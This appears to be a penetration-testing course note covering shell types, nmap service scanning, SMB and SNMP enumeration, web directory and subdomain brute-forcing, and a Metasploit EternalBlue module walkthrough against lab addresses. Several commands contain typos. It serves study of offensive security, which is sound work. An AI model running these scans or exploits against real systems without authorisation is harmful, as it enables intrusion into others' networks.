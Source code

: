 ***

### Risk Management Process

- Identify the risk
- Analyze the risk
- Evaluate the risk
- Dealing with the risk
- Monitoring Risk 

### Common Terms

- **Reverse Shell:** Initiates a connection back to a "Listener" on our attack box
- **Bind Shell:** "Binds" to a specific port on the target host and waits for a connection from our attack box.
- **Web Shell:** Runs OS commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e. leveraging a file upload vulnerability and uploading a PHP script to run a single command)

### Basic Tools

- **[Reverse Shell](https://github.com/besimorhino/powercat):** Windows alternative to `netcat` coded in PowerShell called **PowerCat**
- **[Socat](https://linux.die.net/man/1/socat):** It has a few features that `natcat` does not support, like forwarding ports and connecting to serial devices.
	- It can also be used to [upgrade a shell to a fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat) 
	- [Standalone Binary](https://github.com/andrew-d/static-binaries) of `Socat` can be transferred to a system after obtaining remote code execution to get a more stable reverse shell connection.

### Service Scanning

- Port 0 is a reserved port and is "Wild Card" port
- Ports 1 - 1023 are reserved for privileged services
- `nmap 10.129.42.254` by default performs a TCP scan
	- `-sC`: nmap scripts will be used to obtain more detailed information
	- `-sV`: Performs a version scan (service protocol, application name, version)
	- `-p-`: Scan all ports
- **Banner Grabbing**
	- `namp -sV --script=banner <target>`
	- `nmap -sV --script=banner -p21 10.10.10.0/24`
	- ``nc -nv 10.129.42.253 21``
- **FTP**
	- `ftp -p 10.129.42.253`
- **SMB**
	- `nmap --script smb-os-discovery.nse -p445 10.10.10.40`
	- `nmap -A -p445 10.129.42.253`
	- **Shares**
		- `smbclient -N -L \\\\10.129.42.253`
			- `-N`: Suppress the password prompt
			- `-L`: List the available shares on the remote host
		- `smbclient \\\\10.129.42.253\\users`
		- `smbclient -U bob \\\\10.129.42.253\\users`
- **SNMP**
	- Community strings provide information and statistics about router or device.
	- The manufacturer default community strings of `public` and `private` are often unchanged.
	- `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`
	- `snmpwalk -v 2c -c private 10.129.42.253`
	- [onesixtyone](https://github.com/trailofbits/onesixtyone) can be used to brute force the community string names using a dictionary file of community strings such as the `dict.txt` file.
		- `onesixtyone -c dict.txt 10.129.42.254`

### Web Enumeration

- [ffuf](https://github.com/ffuf/ffuf) and [GoBuster](https://github.com/OJ/gobuster) can be used for directory enumeration
	- `gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
- **DNS Subdomain Enumeration**
	- `git clone https://github.com/danielmiessler/SecLists`
	- `sudo apt install seclists -y`
	- Next add a DNS server such a `1.1.1.1` to the `/etc/resolv.conf`
	- `gobuster dns -d inlanefreight.com -w /usr/share/seclists/Discovery/DNS/namelist.txt`
- We can user `cURL` to retrieve server header information
	- `curl -IL https://www.inlanefreight.com`
- [EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness) can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.
- `whatweb <target ip>` can be used to extract the version of web servers, supporting frameworks, and applications.
	- `whatweb --no-errors <target ip>`

### Public Exploits

- The `searchsploit` tool can be used to search for public vulnerabilities/exploits for any application.
	- `sudo apt install exploitdb -y`
	- `searchspolit openssh 7.2` 
	- We can also use the online exploit database to search for vulnerabilities:
		- [Exploit DB](https://www.exploit-db.com/)
		- [Rapid7 DB](https://www.rapid7.com/db/)
		- [Vulnerability Lab](https://www.vulnerability-lab.com/)
	- We can also use `metasploit` to search for exploits and use the exploits against vulnerable targets.
		- `msfconsole`
		- `search exploit eternalblue`
		- `use exploit/windows/smb/ms17_010_psexec`
		- `show options`
		- `set LHOST tun0`
		- `set RHOST 10.10.10.10`
		- `check`: can be used to check if the server is vulnerable
		- `run` or `exploit`
		